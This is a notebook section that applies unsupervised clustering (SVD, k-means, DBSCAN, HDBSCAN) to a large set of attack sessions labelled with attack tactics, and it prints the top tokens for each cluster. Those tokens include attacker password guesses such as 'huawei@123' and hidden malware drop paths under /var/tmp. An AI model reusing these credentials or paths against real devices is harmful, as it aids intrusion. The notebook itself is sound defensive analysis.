Import previous notebook to use its funcionts


In [ ]:
import numpy as np
import pandas as pd
#%run section_1_pre_processing.ipynb #if must use functions defined in first notebook


# **Section 3 – Unsupervised learning – clustering**

The objective is to cluster attack sessions based on the words used within
them. The aim is to identify patterns and group attacks with similar words together.

In [1]:
import joblib as jl
import numpy as np
import pandas as pd
from sklearn.preprocessing import MultiLabelBinarizer
from sklearn.decomposition import TruncatedSVD  # Implementation of SVD used for sparse matrices
import ast
import os

print("=== SECTION 3: UNSUPERVISED LEARNING (CLUSTERING) ===")

# --- 1. LOAD FEATURE MATRIX (X) ---
try:
    X_tfidf = jl.load('X_tfidf_matrix.pkl')
    print(f"1. Feature Matrix (X) loaded. Shape: {X_tfidf.shape}")
except FileNotFoundError:
    raise FileNotFoundError("CRITICAL: 'X_tfidf_matrix.pkl' not found. Please run Section 1.")

# --- 2. DIMENSIONALITY REDUCTION (SVD) ---
print("\n2. Applying Dimensionality Reduction (SVD)")

# n_components=100 is a standard starting point for SVD (Singular Value Decomposition) on text.
# It captures the most significant concepts while discarding noise.
svd = TruncatedSVD(n_components=100, random_state=42)
X_reduced = svd.fit_transform(X_tfidf)

print(f"   -> Data reduced from {X_tfidf.shape[1]} to {X_reduced.shape[1]} dimensions.")
explained_variance = svd.explained_variance_ratio_.sum()
print(f"   -> Total Variance Explained: {explained_variance:.4f} ({(explained_variance*100):.2f}%)")

# Note: Ideally, we want >80% explained variance. If it's too low, increase n_components.

# --- 3. PREPARE TARGET LABELS (y) FOR EVALUATION ---
file_y_path = 'matrice_y.pkl'
file_raw_path = 'df_fingerprint_list.pkl'

try:
    print("\n3. Preparing Labels (y) for External Evaluation...")
    raw_fingerprints = jl.load(file_raw_path)

    if len(raw_fingerprints) > 0 and isinstance(raw_fingerprints[0], str):
        print("   -> Parsing string data...")
        raw_fingerprints = [ast.literal_eval(x) for x in raw_fingerprints]

    mlb = MultiLabelBinarizer()
    mlb.fit(raw_fingerprints)
    class_names = mlb.classes_
    print(f"   -> Classes: {class_names}")

    if os.path.exists(file_y_path):
        print(f"   -> Loading existing '{file_y_path}'...")
        y = jl.load(file_y_path)
    else:
        print(f"   -> Creating and saving '{file_y_path}'...")
        y = mlb.transform(raw_fingerprints)
        jl.dump(y, file_y_path)

    print(f"   -> Labels ready. Shape: {y.shape}")

except FileNotFoundError:
    print("WARNING: Raw data not found. External evaluation will be disabled.")
    y = None
    class_names = []

# --- 4. SAVE REDUCED DATA ---
jl.dump(X_reduced, 'X_reduced_matrix.pkl')
print(f"\n4. Reduced matrix saved to 'X_reduced_matrix.pkl'.")

=== SECTION 3: UNSUPERVISED LEARNING (CLUSTERING) ===
1. Feature Matrix (X) loaded. Shape: (233035, 1000)

2. Applying Dimensionality Reduction (SVD)
   -> Data reduced from 1000 to 100 dimensions.
   -> Total Variance Explained: 0.8266 (82.66%)

3. Preparing Labels (y) for External Evaluation...
   -> Classes: ['Defense Evasion' 'Discovery' 'Execution' 'Harmless' 'Impact' 'Other'
 'Persistence']
   -> Loading existing 'matrice_y.pkl'...
   -> Labels ready. Shape: (233035, 7)

4. Reduced matrix saved to 'X_reduced_matrix.pkl'.


### 3.1 Determine the number of clusters


Number of clusters for k-means

=== 3.1 DETERMINING OPTIMAL NUMBER OF CLUSTERS (k) ===
1. Data loaded: (233035, 100)
2. Analyzing range k=2-15...
   -> k=2: Clustering Error=29305 | Silhouette=0.7121
   -> k=3: Clustering Error=13049 | Silhouette=0.7204
   -> k=4: Clustering Error=9799 | Silhouette=0.7623
   -> k=5: Clustering Error=8102 | Silhouette=0.7751
   -> k=6: Clustering Error=7496 | Silhouette=0.6402
   -> k=7: Clustering Error=7005 | Silhouette=0.6436
   -> k=8: Clustering Error=6646 | Silhouette=0.6495
   -> k=9: Clustering Error=6402 | Silhouette=0.6511
   -> k=10: Clustering Error=6091 | Silhouette=0.6619
   -> k=11: Clustering Error=5924 | Silhouette=0.6584
   -> k=12: Clustering Error=5799 | Silhouette=0.6591
   -> k=13: Clustering Error=5543 | Silhouette=0.6618
   -> k=14: Clustering Error=5430 | Silhouette=0.6732
   -> k=15: Clustering Error=5307 | Silhouette=0.6786

3. Plotting results...




In [2]:
import matplotlib.pyplot as plt
from sklearn.cluster import KMeans
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl

print("=== 3.1 DETERMINING OPTIMAL NUMBER OF CLUSTERS (k) ===")

# --- 1. LOAD REDUCED DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run the SVD step first.")

# --- 2. SETUP PARAMETERS ---
k_range = range(2, 16)
inertia_values = []
silhouette_values = []

# Subsampling for speed
sample_size = 15000
if X_reduced.shape[0] > sample_size:
    rng = np.random.RandomState(42)
    indices = rng.choice(X_reduced.shape[0], sample_size, replace=False)
    X_silhouette_sample = X_reduced[indices]
else:
    X_silhouette_sample = X_reduced

print(f"2. Analyzing range k={k_range[0]}-{k_range[-1]}...")

# --- 3. ITERATIVE CLUSTERING ---
for k in k_range:
    #Fit K-Means
    kmeans = KMeans(n_clusters=k, random_state=42, n_init=10)
    kmeans.fit(X_reduced)

    #Collect Clustering Error (called 'Inertia' in sklearn)
    inertia_values.append(kmeans.inertia_)

    #Collect Silhouette Score
    labels_sample = kmeans.predict(X_silhouette_sample)
    sil_score = silhouette_score(X_silhouette_sample, labels_sample)
    silhouette_values.append(sil_score)

    print(f"   -> k={k}: Clustering Error={kmeans.inertia_:.0f} | Silhouette={sil_score:.4f}")

# --- 4. PLOTTING ---
print("\n3. Plotting results...")
fig, ax1 = plt.subplots(figsize=(12, 6))

# Plot 1: Clustering Error (Elbow Method)
color = 'tab:blue'
ax1.set_xlabel('Number of Clusters (k)', fontsize=12)
ax1.set_ylabel('Clustering Error (Sum of Squared Errors)', color=color, fontsize=12)
ax1.plot(k_range, inertia_values, 'o-', color=color, linewidth=2, label='Clustering Error (Elbow)')
ax1.tick_params(axis='y', labelcolor=color)
ax1.grid(True, which='both', linestyle='--', alpha=0.5)

# Plot 2: Silhouette Score
ax2 = ax1.twinx()
color = 'tab:red'
ax2.set_ylabel('Silhouette Score', color=color, fontsize=12, rotation=270, labelpad=15)
ax2.plot(k_range, silhouette_values, 's-', color=color, linewidth=2, label='Silhouette') # Changed to solid
ax2.tick_params(axis='y', labelcolor=color)

plt.title('Optimal k Analysis: Elbow Method vs Silhouette Score', fontsize=14)
fig.tight_layout()
plt.show()



Clusters for DBSCAN


In [ ]:
import matplotlib.pyplot as plt
from sklearn.neighbors import NearestNeighbors
import numpy as np
import joblib as jl

print("=== 3.1 (B) DETERMINING OPTIMAL PARAMETERS FOR DBSCAN ===")

# --- 1. LOAD REDUCED DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run the SVD step first.")

# --- 2. SETUP PARAMETERS ---
# According to literature and the concept of density-based clustering[cite: 270],
# we need to define 'min_samples' (minimum points to form a dense region).
# Rule of thumb: min_samples >= 2 * dimensions.
# We have 100 dimensions from SVD -> min_samples = 200.
MIN_SAMPLES = 200

print(f"2. Calculating k-nearest neighbors (k={MIN_SAMPLES})...")
print("   This may take a minute on large datasets...")

# --- 3. CALCULATE NEIGHBOR DISTANCES ---
# We use NearestNeighbors to find the distance to the (min_samples)-th neighbor for every point.
# n_jobs=-1 uses all CPU cores.
neighbors = NearestNeighbors(n_neighbors=MIN_SAMPLES, n_jobs=-1)
neighbors_fit = neighbors.fit(X_reduced)
distances, indices = neighbors_fit.kneighbors(X_reduced)

# We are interested in the distance to the k-th neighbor (the last one in the list for each point)
# This represents how far we have to go to find 'min_samples' neighbors.
distances = np.sort(distances[:, MIN_SAMPLES-1], axis=0)

# --- 4. PLOTTING THE K-DISTANCE GRAPH ---
print("3. Plotting the sorted k-dist graph to find the 'Knee' (optimal eps)...")

fig, ax = plt.subplots(figsize=(12, 6))
ax.plot(distances, color='tab:purple', linewidth=2)
ax.set_title(f'DBSCAN Parameter Tuning: k-Distance Graph (min_samples={MIN_SAMPLES})', fontsize=14)
ax.set_ylabel('Epsilon (Distance to k-th nearest neighbor)', fontsize=12)
ax.set_xlabel('Data Points sorted by distance', fontsize=12)
ax.grid(True, linestyle='--', alpha=0.6)

# Visual aid: Look for the point of maximum curvature
plt.show()

print("\n>>> HOW TO READ THIS GRAPH:")
print("1. The X-axis represents all 180k data points, sorted.")
print("2. The Y-axis is the distance to the 200th neighbor.")
print("3. Look for the 'KNEE' or 'ELBOW' where the curve sharply shoots up.")
print("   - Points to the left of the knee have low distance (High Density -> Clusters).")
print("   - Points to the right (the vertical spike) are far apart (Low Density -> Noise/Outliers).")
print("   - The Y-value at the knee is your optimal 'eps'.")

In [ ]:
from sklearn.cluster import DBSCAN
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl
import matplotlib.pyplot as plt

print("=== 3.2 DBSCAN EXECUTION (MEMORY OPTIMIZED) ===")

# 1. LOAD DATA & CONVERT TO FLOAT32 (Save 50% RAM)
try:
    X_reduced = jl.load('X_reduced_matrix.pkl').astype(np.float32)
    print(f"Data loaded: {X_reduced.shape} (Converted to float32)")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run previous steps first.")

# 2. PARAMETERS
# PROVA AD ABBASSARE EPS: Se prima usavi 0.15, prova 0.1.
# Se crasha ancora, scendi a 0.05.
EPS_VALUE = 0.15
MIN_SAMPLES = 200

print(f"Running DBSCAN with eps={EPS_VALUE} and min_samples={MIN_SAMPLES}...")
print("Using 'ball_tree' algorithm and single core...")

# 3. RUN DBSCAN
# algorithm='ball_tree': Più efficiente di 'brute' per evitare matrici giganti
# metric='euclidean': Standard
dbscan = DBSCAN(eps=EPS_VALUE, min_samples=MIN_SAMPLES, algorithm='ball_tree', metric='euclidean', n_jobs=None)
y_db_pred = dbscan.fit_predict(X_reduced)

print(">>> DBSCAN completed successfully!")

# 4. ANALYZE RESULTS
n_clusters_ = len(set(y_db_pred)) - (1 if -1 in y_db_pred else 0)
n_noise_ = list(y_db_pred).count(-1)
noise_percent = (n_noise_ / len(y_db_pred)) * 100

print(f"\n>>> DBSCAN RESULTS:")
print(f"   - Estimated number of clusters: {n_clusters_}")
print(f"   - Noise points (Outliers): {n_noise_} ({noise_percent:.2f}%)")

# 5. PLOT
unique, counts = np.unique(y_db_pred, return_counts=True)
cluster_counts = dict(zip(unique, counts))
plt.figure(figsize=(10, 5))
colors = ['red' if k == -1 else 'tab:orange' for k in cluster_counts.keys()]
plt.bar(cluster_counts.keys(), cluster_counts.values(), color=colors)
plt.title(f'DBSCAN Distribution (eps={EPS_VALUE})')
plt.show()

In [ ]:
# --- IMPORTS & COMPATIBILITY CHECK ---
try:
    # HDBSCAN is included in scikit-learn since version 1.3
    from sklearn.cluster import HDBSCAN
    print("LIBRARY STATUS: Using native sklearn.cluster.HDBSCAN")
except ImportError:
    try:
        # Fallback for older environments: requires 'pip install hdbscan'
        from hdbscan import HDBSCAN
        print("LIBRARY STATUS: Using external 'hdbscan' library")
    except ImportError:
        raise ImportError("HDBSCAN not found. Please upgrade scikit-learn (pip install -U scikit-learn) or install hdbscan.")

from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl
import matplotlib.pyplot as plt

print("=== 3.2 HDBSCAN CLUSTERING EXECUTION (MEMORY OPTIMIZED) ===")

# --- 1. LOAD DATA (WITH MEMORY OPTIMIZATION) ---
try:
    # CRITICAL OPTIMIZATION: Convert to float32.
    # This reduces RAM usage by 50% compared to default float64.
    X_reduced = jl.load('X_reduced_matrix.pkl').astype(np.float32)
    print(f"1. Data loaded and optimized (float32). Shape: {X_reduced.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: 'X_reduced_matrix.pkl' not found. Run SVD step first.")

# --- 2. SET PARAMETERS ---
# HDBSCAN does not use 'eps'. It uses 'min_cluster_size' as the main parameter.
# min_cluster_size: The smallest size grouping that we consider a cluster (not noise).
# We keep 200 to be consistent with your previous logic (2 * dimensions).

MIN_CLUSTER_SIZE = 200
MIN_SAMPLES = None # Defaults to min_cluster_size. Controls how "conservative" the clustering is.

print(f"2. Configuration: min_cluster_size={MIN_CLUSTER_SIZE}")
print("   Status: Running HDBSCAN...")

# --- 3. RUN HDBSCAN ---
# n_jobs=-1 uses all available cores. HDBSCAN handles parallelization
# much better than standard DBSCAN without crashing RAM.
try:
    hdb = HDBSCAN(min_cluster_size=MIN_CLUSTER_SIZE, min_samples=MIN_SAMPLES, n_jobs=-1)
    y_db_pred = hdb.fit_predict(X_reduced)
    print("   >>> HDBSCAN Completed Successfully!")
except Exception as e:
    print(f"   >>> CRITICAL ERROR during fit: {e}")
    print("   >>> Try setting n_jobs=1 if memory error persists.")
    raise

# --- 4. ANALYZE RESULTS ---
# In HDBSCAN, -1 represents Noise (Outliers)
n_clusters_ = len(set(y_db_pred)) - (1 if -1 in y_db_pred else 0)
n_noise_ = list(y_db_pred).count(-1)
noise_percent = (n_noise_ / len(y_db_pred)) * 100

print(f"\n=== RESULTS SUMMARY ===")
print(f"   - Clusters Found: {n_clusters_}")
print(f"   - Noise Points (-1): {n_noise_} ({noise_percent:.2f}%)")

# --- 5. CALCULATE SILHOUETTE (FAST SUBSAMPLE) ---
# Calculating Silhouette on 180k points is O(N^2) and very slow.
# We use a random subsample of 15,000 points to get a result in seconds.
if n_clusters_ > 1:
    print("\n3. Calculating Silhouette Score (on 15k subsample)...")
    rng = np.random.RandomState(42)
    indices = rng.choice(X_reduced.shape[0], 15000, replace=False)

    X_sample = X_reduced[indices]
    y_sample = y_db_pred[indices]

    sil_score = silhouette_score(X_sample, y_sample)
    print(f"   >>> Silhouette Score: {sil_score:.4f}")
else:
    print("\n   >>> Silhouette Score: Not applicable (Less than 2 clusters found).")
    print("   >>> TIP: If only Noise (-1), decrease 'min_cluster_size'.")

# --- 6. PLOT DISTRIBUTION ---
print("\n4. Plotting Cluster Distribution...")
unique, counts = np.unique(y_db_pred, return_counts=True)
cluster_counts = dict(zip(unique, counts))

plt.figure(figsize=(12, 6))
# Color logic: Red for Noise (-1), Blue for Clusters
colors = ['tab:red' if k == -1 else 'tab:blue' for k in cluster_counts.keys()]

plt.bar(range(len(cluster_counts)), cluster_counts.values(), color=colors)
plt.xlabel('Cluster ID (First bar is usually -1/Noise)')
plt.ylabel('Number of Samples')
plt.title(f'HDBSCAN Distribution (min_cluster_size={MIN_CLUSTER_SIZE})')
plt.grid(axis='y', linestyle='--', alpha=0.3)

# Add text labels for Noise count
if -1 in cluster_counts:
    plt.text(0, cluster_counts[-1], f"Noise: {cluster_counts[-1]}",
             ha='center', va='bottom', fontweight='bold', color='red')

plt.show()

### 3.2 Tune hyperparamenter

Hyperparamenter for k-means

In [4]:
from sklearn.cluster import KMeans
from sklearn.metrics import silhouette_score
import numpy as np
import joblib as jl
import pandas as pd

print("=== 3.2 K-MEANS HYPER-PARAMETER TUNING ===")

# --- 1. LOAD DATA ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run SVD step first.")

# --- 2. DEFINE FIXED PARAMETER ---
BEST_K = 5
print(f"2. Fixing k={BEST_K} based on previous analysis.")

# --- 3.  GRID OF PARAMETERS TO TUNE ---
# We test different initialization strategies and algorithms to avoid local minima

param_grid = [
    {'init': 'k-means++', 'n_init': 10, 'algorithm': 'lloyd'},
    {'init': 'k-means++', 'n_init': 20, 'algorithm': 'lloyd'},
    {'init': 'random',    'n_init': 20, 'algorithm': 'lloyd'},
    {'init': 'k-means++', 'n_init': 10, 'algorithm': 'elkan'},
]

print(f"3. Starting Grid Search on {len(param_grid)} combinations...")
print("   Metric: Silhouette Score (Higher is better)")

# --- 4. SUBSAMPLING FOR EVALUATION ---
# Calculating Silhouette on 180k points for every grid step is too slow.
# We use a fixed validation set of 15k points.
rng = np.random.RandomState(42)
indices = rng.choice(X_reduced.shape[0], 15000, replace=False)
X_val = X_reduced[indices]

results = []

for params in param_grid:
    print(f"   Testing: {params} ...", end=" ")

    # Initialize model
    km = KMeans(n_clusters=BEST_K,
                init=params['init'],
                n_init=params['n_init'],
                algorithm=params['algorithm'],
                random_state=123)

    # Fit on FULL data (training)
    km.fit(X_reduced)

    # Evaluate on VALIDATION set
    labels_val = km.predict(X_val)
    sil = silhouette_score(X_val, labels_val)

    # Store results including Clustering Error (inertia)
    res = params.copy()
    res['silhouette'] = sil
    res['inertia'] = km.inertia_
    results.append(res)

    print(f"Sil={sil:.4f}")

# --- 5. SELECT BEST MODEL ---
results_df = pd.DataFrame(results)
best_run = results_df.loc[results_df['silhouette'].idxmax()]

print("\n=== TUNING RESULTS ===")
print(results_df.sort_values(by='silhouette', ascending=False))

print(f"\n>>> BEST PARAMETERS FOUND:")
print(f"    - Init:      {best_run['init']}")
print(f"    - n_init:    {best_run['n_init']}")
print(f"    - Algorithm: {best_run['algorithm']}")
print(f"    - Score:     {best_run['silhouette']:.4f}")

# --- 6. SAVE FINAL MODEL ---
print("\n4. Retraining and saving best model...")
best_kmeans = KMeans(n_clusters=BEST_K,
                     init=best_run['init'],
                     n_init=int(best_run['n_init']),
                     algorithm=best_run['algorithm'],
                     random_state=123)
best_kmeans.fit(X_reduced)

# Save labels for comparison later
final_labels = best_kmeans.labels_
jl.dump(final_labels, 'kmeans_labels.pkl')
print("   -> Labels saved to 'kmeans_labels.pkl'")

=== 3.2 K-MEANS HYPER-PARAMETER TUNING ===
1. Data loaded: (233035, 100)
2. Fixing k=5 based on previous analysis.
3. Starting Grid Search on 4 combinations...
   Metric: Silhouette Score (Higher is better)
   Testing: {'init': 'k-means++', 'n_init': 10, 'algorithm': 'lloyd'} ... Sil=0.7751
   Testing: {'init': 'k-means++', 'n_init': 20, 'algorithm': 'lloyd'} ... Sil=0.7751
   Testing: {'init': 'random', 'n_init': 20, 'algorithm': 'lloyd'} ... Sil=0.6213
   Testing: {'init': 'k-means++', 'n_init': 10, 'algorithm': 'elkan'} ... Sil=0.7751

=== TUNING RESULTS ===
        init  n_init algorithm  silhouette      inertia
0  k-means++      10     lloyd     0.77514  8101.805123
1  k-means++      20     lloyd     0.77514  8101.805123
3  k-means++      10     elkan     0.77514  8101.805123
2     random      20     lloyd     0.62130  9337.370379

>>> BEST PARAMETERS FOUND:
    - Init:      k-means++
    - n_init:    10
    - Algorithm: lloyd
    - Score:     0.7751

4. Retraining and saving best

### 3.3 Visualize the clusters

Visualize the clusters for the k-means

=== 3.3 VISUALIZATION OF K-MEANS CLUSTERS ===
1. Data loaded: (233035, 100)
   Labels loaded: (233035,)

2. Computing PCA (2 Components) for Global Visualization...





3. Computing t-SNE for Local Structure Analysis...
   -> Running t-SNE on 10000 samples.





>>> VISUALIZATION COMPLETE


In [6]:
import matplotlib.pyplot as plt
import seaborn as sns
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.decomposition import PCA
from sklearn.manifold import TSNE

print("=== 3.3 VISUALIZATION OF K-MEANS CLUSTERS ===")

# --- 1. LOAD DATA & LABELS ---
try:
    X_reduced = jl.load('X_reduced_matrix.pkl')
    labels = jl.load('kmeans_labels.pkl')
    print(f"1. Data loaded: {X_reduced.shape}")
    print(f"   Labels loaded: {labels.shape}")
except FileNotFoundError:
    raise FileNotFoundError("Error: Run previous steps (SVD + K-Means) first.")

# Define color palette for 5 clusters
palette = sns.color_palette("bright", 5)

# --- 2. VISUALIZATION A: PCA (Global Structure) ---
print("\n2. Computing PCA (2 Components) for Global Visualization...")
pca = PCA(n_components=2, random_state=42)
X_pca = pca.fit_transform(X_reduced)

# Create DataFrame for Plotting
df_pca = pd.DataFrame(X_pca, columns=['PC1', 'PC2'])
df_pca['Cluster'] = labels

# Plot PCA
plt.figure(figsize=(10, 8))
sns.scatterplot(
    x='PC1', y='PC2',
    hue='Cluster',
    palette=palette,
    data=df_pca,
    legend="full",
    alpha=0.6,
    s=10 # dot size
)
plt.title('K-Means Clusters Visualization using PCA (Global Structure)', fontsize=15)
plt.xlabel(f'Principal Component 1 ({pca.explained_variance_ratio_[0]:.1%} var)')
plt.ylabel(f'Principal Component 2 ({pca.explained_variance_ratio_[1]:.1%} var)')
plt.grid(True, linestyle='--', alpha=0.3)
plt.show()

# --- 3. VISUALIZATION B: t-SNE (Local Structure) ---
print("\n3. Computing t-SNE for Local Structure Analysis...")
# We use a representative subsample (10k points) to visualize density and separation.
sample_size = 10000
rng = np.random.RandomState(42)
indices = rng.choice(X_reduced.shape[0], sample_size, replace=False)

X_sample = X_reduced[indices]
y_sample = labels[indices]

print(f"   -> Running t-SNE on {sample_size} samples.")
tsne = TSNE(n_components=2, random_state=42, n_jobs=-1, perplexity=30)
X_tsne = tsne.fit_transform(X_sample)

# Create DataFrame for Plotting
df_tsne = pd.DataFrame(X_tsne, columns=['Dim1', 'Dim2'])
df_tsne['Cluster'] = y_sample

# Plot t-SNE
plt.figure(figsize=(10, 8))
sns.scatterplot(
    x='Dim1', y='Dim2',
    hue='Cluster',
    palette=palette,
    data=df_tsne,
    legend="full",
    alpha=0.7,
    s=15
)
plt.title(f'K-Means Clusters Visualization using t-SNE (Subsample N={sample_size})', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle='--', alpha=0.3)
plt.show()

print("\n>>> VISUALIZATION COMPLETE")

### 3.4 Cluster analysis

3.4.1 Cluster analysis for k-means

=== 3.4 CLUSTER CHARACTERIZATION (K-MEANS) ===
Files Loaded:
   - TF-IDF Matrix: (233035, 1000)
   - Labels: (233035,)
   - Raw Data: (233035, 4)

2. Reconstructing vocabulary from raw data...
   -> Vocabulary size: 1000 words

3. Analyzing 5 Clusters...

--- CLUSTER 0 ANALYSIS ---
Top Representative Commands:
gopalon", caonimade", e8telnet", unset, name="u6", /mnt, /var/tmp/.systemcache436621, -i, passwd123", asdfgh"





--- CLUSTER 1 ANALYSIS ---
Top Representative Commands:
.m, /, huawei@123", /proc/cpuinfo, /bin/busybox, read.txt*, dashenglinux", clifford", winner", if





--- CLUSTER 2 ANALYSIS ---
Top Representative Commands:
gopalon", caonimade", /var/tmp/.system9s5d22fourmgf21), e8telnet", /var/tmp/.systemcache436621, unset, name="u6", /mnt, -i, bani"


